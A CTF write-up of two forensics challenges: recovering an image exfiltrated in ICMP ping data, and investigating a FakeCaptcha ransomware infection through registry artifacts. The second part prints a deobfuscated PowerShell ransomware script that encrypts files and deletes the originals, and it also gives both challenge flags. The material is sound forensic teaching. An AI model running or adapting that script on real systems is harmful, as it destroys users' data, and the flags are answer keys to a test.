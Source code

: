 ```yaml
---
title: "IDEH v6 Write Up"
date: 2025-04-13 10:00:00 +0800
categories: [CTF Write ups]
tags: [Forensics, Malware]
description: Write Up of the forensics challenges i made for the IDEH v6 CTF
image: /images/ideh6/1.png
---
```

# pingwin

![](/images/ideh6/2.png)

In this challenge, we have a pcap file. Let's analyze it in Wireshark.

![](/images/ideh6/4.png)

We have two protocols in the traffic: DNS and ICMP, which might indicate possible data exfiltration. Let's investigate further.

![](/images/ideh6/5.png)

There's nothing suspicious in the DNS traffic—just queries to an invalid domain, `notgoogle.com`, with no data being transferred.

Now, let's move on to the ICMP traffic.

![](/images/ideh6/6.png)

The first ICMP (ping) request contains some data. In the first request, the data is a PNG file signature, indicating that an image is being exfiltrated through the protocol.

Let's use the `tshark` command line to extract all data chunks and reconstruct the image file:

```
tshark -r pingwin.pcapng -Y "icmp && ip.src == 192.168.42.173" -T fields -e data.data | tr '\n' '\0' | xxd -r -p > solve.png
```

And here is the image being exfiltrated:


![](/images/ideh6/7.png)

FLAG : `IDEH{h0l4_qu3_p4s4_4l_kh4w4}`

# captcha

![](/images/ideh6/3.png)

In this challenge, we have an encrypted PDF file and a ZIP file containing a disk image.

![](/images/ideh6/8.png)

Based on the challenge description, the victim had their PDF encrypted after verifying a captcha on a website.

The captcha verification seems unusual, as a regular captcha verifier doesn't ask the user to open the Windows Run dialog (Windows key + R).
This attack is known as FakeCaptcha, and it is widely spread across the web.
Most of these attacks involve phishing the user into running a pre-copied payload via the Windows Run dialog.
The script is typically an infostealer malware, but in this case, it's ransomware, so let's investigate further.

Opening the disk image with an imaging tool (I used FTK Imager), we can see the user's files.

![](/images/ideh6/9.png)

Great! In Windows, the history of commands used in the Run dialog is stored in the registry at the following path:
`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`

Now, let's locate the user registry hive. The user registry is located in the root folder of the user’s directory and is called `ntuser.dat`

 ![](/images/ideh6/10.png)

Let's export this file from the image. To view its contents, we need **Registry Explorer**, a great tool from Eric Zimmerman.

After opening the registry, navigate to the path:
`\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` to find the history of commands

![](/images/ideh6/11.png)

The malicious payload makes a web request to retrieve the actual payload from Pastebin. Visiting the URL, we can see an obfuscated PowerShell command. We need to deobfuscate it to understand its behavior.

![](/images/ideh6/12.png)

Here is the deobfuscated version:

```bash
$folderPath = [System.IO.Path]::Combine([System.Environment]::GetFolderPath("Desktop"), "random_folder_to_not_damage_the_entire_system")
if (-not (Test-Path $folderPath)) {
    Write-Host "Folder not found. Exiting."
    exit
}
$computerName = [System.Environment]::MachineName
if ($computerName.Length -lt 16) {
    $key = $computerName + ('9' * (16 - $computerName.Length))
} else {
    $key = $computerName.Substring(0, 16)
}
Write-Host "Key: $key"
$keyBytes = [System.Text.Encoding]::UTF8.GetBytes($key)
Write-Host "Key Bytes: $($keyBytes -join ', ')"
$aesAlg = [System.Security.Cryptography.Aes]::Create()
$aesAlg.Key = $keyBytes
$aesAlg.Mode = [System.Security.Cryptography.CipherMode]::ECB
$aesAlg.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
Get-ChildItem -Path $folderPath -File | ForEach-Object {
    $filePath = $_.FullName
    $encryptor = $aesAlg.CreateEncryptor($aesAlg.Key, $null)
    $cryptoStream = New-Object System.Security.Cryptography.CryptoStream(
        [System.IO.File]::OpenWrite($filePath + ".enc"),
        $encryptor,
        [System.Security.Cryptography.CryptoStreamMode]::Write
    )
    $inputFileStream = [System.IO.File]::OpenRead($filePath)
    $inputFileStream.CopyTo($cryptoStream)
    $cryptoStream.FlushFinalBlock()
    $cryptoStream.Close()
    $inputFileStream.Close()
    Remove-Item $filePath -Force
}
```

This PowerShell script encrypts files in a "Desktop" folder **random_folder_to_not_damage_the_entire_system** using AES-ECB with a key derived from the computer name.

- If the computer name is shorter than 16 characters, it pads it with the character `9`.

- If the computer name is longer, it truncates it to 16 characters.

- The script appends `.enc` to the encrypted files and deletes the originals.

Now, we need the computer name to construct the encryption key. The computer name is stored in the Windows registry, specifically at `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName`

Let's retrieve the system machine hive.

In the disk image, the registry hive is located in the main folder, before the user folder.

![](/images/ideh6/13.png)

We open it again using **Registry Explorer** and navigate to the **ComputerName** path.

![](/images/ideh6/14.png)

The computer name is `DESKTOP-QELPTBL`

Since the computer name is 15 characters long, the script will pad it with the character `9` to make it a 16-character string.

Thus, the encryption key is `DESKTOP-QELPTBL9`

Now, let's decrypt the PDF file using a custom Python script.

```py
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import os

def dec_file(encrypted, decrypted, key):
    with open(encrypted, 'rb') as f:
        ciphertext = f.read()
    cipher = AES.new(key, AES.MODE_ECB)
    dec_data = unpad(cipher.decrypt(ciphertext), AES.block_size)
    with open(decrypted, 'wb') as f:
        f.write(dec_data)
    print(f"decrypted and saved as {decrypted}")

key = b"DESKTOP-QELPTBL9"
encrypted = 'flag.pdf.enc'
decrypted = 'flag.pdf'
dec_file(encrypted, decrypted, key)
```

...and voilà, we got the PDF back:

![](/images/ideh6/15.png)

FLAG : `IDEH{D1g174l_F0r3n51c_M4573r}`

